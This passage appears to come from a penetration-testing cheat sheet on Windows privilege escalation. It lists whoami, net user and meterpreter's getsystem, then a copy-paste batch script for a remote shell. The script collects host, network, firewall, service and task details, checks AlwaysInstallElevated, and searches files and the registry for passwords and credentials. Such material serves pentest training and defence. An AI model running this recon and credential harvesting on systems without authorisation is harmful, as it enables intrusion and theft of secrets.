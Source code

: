     `whoami`

    `net user "%username%"`

- Try the getsystem command using meterpreter - rarely works but is worth a try.

    `meterpreter > getsystem`

- No File Upload Required Windows Privlege Escalation Basic Information Gathering (based on the fuzzy security tutorial and windows_privesc_check.py).

     Copy and paste the following contents into your remote Windows shell in Kali to generate a quick report:

      ```shell
      @echo --------- BASIC WINDOWS RECON ---------  > report.txt
      timeout 1
      net config Workstation  >> report.txt
      timeout 1
      systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt
      timeout 1
      hostname >> report.txt
      timeout 1
      net users >> report.txt
      timeout 1
      ipconfig /all >> report.txt
      timeout 1
      route print >> report.txt
      timeout 1
      arp -A >> report.txt
      timeout 1
      netstat -ano >> report.txt
      timeout 1
      netsh firewall show state >> report.txt 
      timeout 1
      netsh firewall show config >> report.txt
      timeout 1
      schtasks /query /fo LIST /v >> report.txt
      timeout 1
      tasklist /SVC >> report.txt
      timeout 1
      net start >> report.txt
      timeout 1
      DRIVERQUERY >> report.txt
      timeout 1
      reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
      timeout 1
      reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
      timeout 1
      dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
      timeout 1
      findstr /si password *.xml *.ini *.txt >> report.txt
      timeout 1
      reg query HKLM /f password /t REG_SZ /s >> report.txt
      timeout 1
      reg query HKCU /f password /t REG_SZ /s >> report.txt 
      timeout 1
      dir "C:\"
      timeout 1
      dir "C:\Program Files\" >> report.txt
      timeout 1
      dir "C:\Program Files (x86)\"
      timeout 1
      dir "C:\Users\"
      timeout 1
      dir "C:\Users\Public\"